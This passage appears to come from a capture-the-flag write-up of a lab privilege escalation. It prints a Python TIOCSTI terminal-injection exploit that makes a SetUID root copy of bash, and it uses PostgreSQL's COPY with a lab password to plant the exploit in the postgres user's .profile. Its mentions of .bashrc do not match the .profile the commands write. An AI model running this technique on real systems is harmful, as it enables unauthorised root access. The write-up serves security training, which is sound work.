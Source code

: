 I'll create an exploit script at `/dev/shm/poc.py`:



    #!/usr/bin/env python3
    import fcntl
    import termios
    import os
    import sys
    import signal

    os.kill(os.getppid(), signal.SIGSTOP)

    for char in 'cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf\n':
        fcntl.ioctl(0, termios.TIOCSTI, char)



This is like the POC, except my command is just to make a copy of `bash`
as `/tmp/0xdf` and make it SetUID / setGID to run as root.

I need a way to write to the `.bashrc` file in the postgres user's home
directory. The home directory is `/var/lib/postgresql`. I can't write
there directly as wesley:



    wesley@download:~$ echo -e "\n\npython /dev/shm/poc.py\n" >> /var/lib/postgresql/.profile
    -bash: /var/lib/postgresql/.bashrc: Permission denied



I'll have to write from the database. I'll connect with the password
"CoconutPineappleWatermelon":



    wesley@download:~$ psql -h 127.0.0.1 -U download download
    Password for user download: 
    psql (12.15 (Ubuntu 12.15-0ubuntu0.20.04.1))
    SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
    Type "help" for help.

    download=> 



I'll use the `COPY` command to write to the `.bashrc`:



    download=> COPY (select 'python3 /dev/shm/poc.py') TO '/var/lib/postgresql/.profile';
    COPY 1



It works:



    wesley@download:~$ cat /var/lib/postgresql/.profile 
    python3 /dev/shm/poc.py



#### Execution

